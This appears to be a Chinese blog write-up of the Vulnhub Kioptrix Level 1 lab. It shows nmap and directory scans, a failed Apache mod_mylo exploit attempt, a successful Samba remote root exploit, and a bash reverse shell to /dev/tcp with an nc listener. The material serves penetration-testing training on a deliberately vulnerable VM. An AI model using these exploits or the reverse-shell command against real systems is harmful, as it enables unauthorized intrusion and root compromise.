 ```yaml
---
title: Vulnhub-KioptrixLevel1通关记录
tags:
  - 靶场
  - Kioptrix
  - vulnhub
  - WriteUp
categories: WriteUp
keywords: vulnhub
description: 本文记录了作者在通关vulnhub靶机Kioptix Level1中遇到的问题以及踩坑后的解决方案。涉及smb爆破，终端稳定性提高等有效操作。
cover: https://pic.imgdb.cn/item/653b2755c458853aef761f44.jpg
top_img: https://pic.imgdb.cn/item/653b2755c458853aef761f44.jpg
date: 2023-10-27 10:45:07
---
```



## 靶机描述

靶机 IP :  10.8.12.128

>This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## 信息收集

### nmap扫描

按照常规的方法：通过 TCP | UDP 扫描端口、获取开放端口对应信息、系统版本信息

下面是通过 TCP 扫描发现所收集到的信息：

```
$ sudo nmap -sT -p- --min-rate 10000 10.8.12.128 -oN nmapscan/portscan.txt
Nmap scan report for 10.8.12.128
Host is up (0.00067s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm

$ sudo nmap -sT -p22,80,111,139,443,1024 -sV -sC -O --min-rate 10000 10.8.12.128 -oN nmapscan/servscan.txt
.......
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      1 (RPC #100024)
.......

```

根据 `nmap` 的扫描结果，可以看到靶机开放了22，80，111，139，443，1024端口，对应的服务分别为 ssh ，web ， smb ，rpc<sup>[①](#RPC协议)</sup>。 

### Web 目录扫描

```
/.html                (Status: 403) [Size: 269]
/index.html           (Status: 200) [Size: 2890]
/test.php             (Status: 200) [Size: 27]
/manual               (Status: 301) [Size: 294] [--> http://127.0.0.1/manual/]
/usage                (Status: 301) [Size: 293] [--> http://127.0.0.1/usage/]
/mrtg                 (Status: 301) [Size: 292] [--> http://127.0.0.1/mrtg/]
```

## 获取立足点

### 失败尝试：绕过 `127.0.0.1` 限制

因为看到如下提示，就在想能不能用绕过的方式，访问到 `127.0.0.1` 的资源，期间尝试了以下几种方法：

1. 添加 `x-forward-for` 头，但是依旧重定向到 `127.0.0.1` ；
2. 通过 SSRF 的方式绕过，但未找到可利用的文件；

### 失败尝试：Apache 1.3.20 RCE

通过 `searchsploit` 查询到 `Apache 1.3.20` 存在 RCE 漏洞，将对应的脚本 `67.c` 复制到本地后进行使用 `gcc` 编译，但编译后爆破攻击失败。

```
$ searchsploit Apache 1.3

.....
Apache 1.3.x mod_mylo - Remote Code Execution | multiple/remote/67.c 
.....

$ searchsploit -m 67.c
  Exploit: Apache 1.3.x mod_mylo - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/67
     Path: /usr/share/exploitdb/exploits/multiple/remote/67.c
    Codes: OSVDB-10976, CVE-2003-0651
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/Desktop/BoxWalk/Vulnhub/kioptrix/level1/67.c

$ gcc -o 67 67.c

$ ./67 -h
Apache + mod_mylo remote exploit
By Carl Livitt (carllivitt at hush dot com)

Arguments:
  -t target       Attack 'target' host
  -T platform     Use parameters for target 'platform'
  -h              This help.

Available platforms:
 0. SuSE 8.1, Apache 1.3.27 (installed from source) (default)
 1. RedHat 7.2, Apache 1.3.20 (installed from RPM)
 2. RedHat 7.3, Apache 1.3.23 (installed from RPM)
 3. FreeBSD 4.8, Apache 1.3.27 (from Ports)

$ ./67 -t 10.8.12.128 -T 1
[-] Attempting attack [ RedHat 7.2, Apache 1.3.20 (installed from RPM) ] ...
[*] Bruteforce failed....

Have a nice day!
```

### smb攻击

发现靶机开放了139端口，使用 `msf` 对 smb 服务进行攻击。

```
$ searchsploit samba | grep 10.c
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution | multiple/remote/10.c

$ ./a.out -b0 10.8.12.128
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root
tty
not a tty
```

尝试的是将反弹的shell升级为完整的TTY（交互式shell），直接再shell中再次发起回连，然后在攻击机上使用 `rlwrap` 监听。

```
# target
/bin/bash -i >& /dev/tcp/192.168.213.129/10234 0>&1
```

```
# kali
$ rlwrap nc -lvnp 10234                                             
listening on [any] 10234 ...
connect to [192.168.213.129] from (UNKNOWN) [192.168.213.128] 1026
bash: no job control in this shell
[root@kioptrix tmp]#  
```

虽然仍然不是完整的TTY，但是支持用方向键查看历史记录了，并且用户权限为root权限，测试结束。
## 总结

这个靶机比较简单，来源于[@TJ_Null](https://twitter.com/TJ_Null)大神更新的 [NetSecFocus Trophy Room(Oct 12, 2023)](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit?pli=1#gid=998752843)。比较费时的是之前的两次失败尝试，让我在简单靶机上耽搁和浪费了不少时间。

总而言之，在渗透过程中，攻击者应该做好攻击向量的资源分配，以免出现事半功倍的情况。
## 注释

### RPC协议

>RPC（ Remote Procedure Call ）远程过程调用协议，一种通过网络从远程计算机上请求服务，而不需要了解底层网络技术的协议。RPC 它假定某些协议的存在，例如 TPC / UDP 等，为通信程序之间携带信息数据。在 OSI 网络七层模型中，RPC 跨越了传输层和应用层，RPC 使得开发，包括网络分布式多程序在内的应用程序更加容易。

![RPC流程图](https://pic.imgdb.cn/item/64a6d7c41ddac507ccd18b65.jpg)

### CGI 定义

>CGI 目前由NCSA维护，NCSA 定义 CGI 如下：
>
>CGI ( Common Gateway Interface ) ，通用网关接口，它是一段程序,运行在服务器上如：HTTP服务器，提供同客户端 HTML 页面的接口。

CGI 工作流程（用户在网页上点击一个链接或URL）：

1. 使用你的浏览器访问URL并连接到HTTP web 服务器。
2. Web服务器接收到请求信息后会解析URL，并查找访问的文件在服务器上是否存在，如果存在返回文件的内容，否则返回错误信息。
3. 浏览器从服务器上接收信息，并显示接收的文件或者错误信息。

CGI 程序可以是 Python 脚本，PERL 脚本，SHELL 脚本，C 或者 C++ 程序等。

![CGI架构图](https://pic.imgdb.cn/item/64a6ef551ddac507cc075799.jpg)